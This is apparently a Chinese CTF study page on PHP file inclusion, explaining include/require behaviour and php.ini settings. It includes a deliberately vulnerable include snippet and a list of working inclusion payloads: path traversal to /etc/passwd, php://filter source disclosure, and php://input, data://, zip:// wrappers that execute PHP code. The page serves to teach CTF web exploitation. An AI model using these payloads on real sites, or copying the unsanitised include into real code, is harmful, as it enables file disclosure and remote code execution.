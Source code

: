 ```yaml
---
title: "文件包含" 
weight: 4
bookToc: true
---
```


## 文件包含

几平所有的编程语言都会提供文件包含功能，目的是将可重复使用的代码写到单个文件中，通过包含文件复用之前的代码逻辑，如C语言的`#include`

ctf web题目中，如果涉及考查文件包含知识点，则对应web大概率是**由php编写**，通过文件包含主要的目的有**以下2点**：
- 最终步骤：包含flag文件，获取flag
- 中间步骤：包含xxx.php，获取对应代码，进行代码审计（**主要情形**）

当获取不到代码的时候，且页面有明显文件包含功能时，可以使用`?page=../../../../../etc/passwd`，基于网页回显判断是否存在文件包含漏洞

## 关键函数

php中的文件包含涉及到以下函数，先理解以下函数的作用
- `include/include_once/require/require_once`，由 `allow_url_include = on/off` 决定是否可以访问各种类型的数据流（built-in wrappers for various URL-style protocols），即使用伪协议
- `file_get_contents/fopen`等filesystem相关函数，由 `allow_url_fopen = on/off` 决定是否可以访问各种类型的数据流（built-in wrappers for various URL-style protocols），即使用伪协议

一些说明：
- `allow_url_include = on`设置生效，需要`allow_url_fopen`设置为`on`
- `allow_url_fopen`默认`on`，`allow_url_include`默认`off`
- `allow_url_include`PHP 7.4.0版本已经不支持，只在PHP 7.3和版本中设置生效

![](/data/image/web-allow-url-include.png)
![](/data/image/web-allow-url-include2.png)


### include/include_require

include 用于在 PHP 脚本中包含并执行另一个文件，包含的文件会被当成php代码执行，如果包含的文件不存在或者因某些原因无法加载，include 将发出一个警告（E_WARNING），但脚本**将继续执行**。适合于那些非关键的文件包含，比如界面元素或者某些可选的功能组件。

include_once 功能类似于 include，也是用于包含并执行文件。不同之处在于它会首先检查该文件是否已经被包含过，如果是，**则不会再次包含**。

### require/require_once

require 与 include 类似，但其差异在于错误处理。如果 require 的文件不存在或无法加载，PHP 将发出致命错误（E_COMPILE_ERROR），**并停止脚本执行**。适用于那些对脚本运行至关重要的文件，如配置文件或核心库文件。

require_once 功能类似于 require，也是用于包含并执行文件。不同之处在于它会首先检查该文件是否已经被包含过，如果是，**则不会再次包含**。

### file_get_contents/fopen

TODO

## 伪协议

php提供了各种伪协议，[built-in wrappers for various URL-style protocols](https://www.php.net/manual/en/wrappers.php)，具体查询链接中的信息每个伪协议是否受`allow_url_fopen/allow_url_include`限制

ctf常考的伪协议用法如下：
测试代码段如下
```php
<?php
    $file = $_GET['page'];
    include $file;
?>
```
```
?page=file:///etc/passwd

?page=php://filter/string.toupper/resource=flag.php
?page=php://filter/convert.base64-encode/resource=flag.php # 用于读取源代码并进行 base64 编码输出，不然会直接当做 php 代码执行就看不到源代码内容了
?page=php://filter//convert.iconv.SJIS*.UCS-4*/resource=flag.php 
# convert.iconv.<input-encoding>.<output-encoding>，支持的编码参看，https://www.php.net/manual/en/mbstring.supported-encodings.php

?page=php://input
【POST Data】: <?php phpinfo(); ?>  # 当 enctype="multipart/form-data" 时，php://input 是无效的

?page=data://text/plain,<?php phpinfo()?>
?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

?page=zip://./file.jpg%23phpcode.txt 
# 先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩，压缩文件名为file.zip；如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后再上传
?page=compress.bzip2://./file.jpg # compress.bzip2 php特有流封装器在PHP中用于bzip2压缩单个文件
?page=compress.zlib://./file.jpg # 同上
```

## 题目

{{< expand "题目 攻防世界-Web-文件包含" "..." >}}
TODO
{{< /expand >}}